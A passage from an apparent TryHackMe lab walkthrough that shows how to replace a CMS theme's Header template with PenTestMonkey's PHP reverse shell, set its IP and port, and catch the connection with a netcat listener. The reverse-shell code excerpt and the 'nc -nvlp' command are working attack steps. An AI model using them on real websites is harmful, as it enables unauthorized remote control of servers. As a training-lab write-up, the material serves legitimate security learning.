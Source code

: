 2. On the very right, under "Templates", select **"Header"**

![step2](./screenshots/step2.png)

3. Replace the code in the editor with a PHP reverse shell script. I'm using this one from PenTestMonkey: http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

4. Be sure to change the **$ip** to your TryHackMe VPN IP, and change the **$port** to the port your machine will be listening on.

```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.221.49';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

5. Click the **"Update File"** button below the editor.

6. On your local PC, setup a NetCat listener:
	
```
sudo nc -nvlp 1234
```
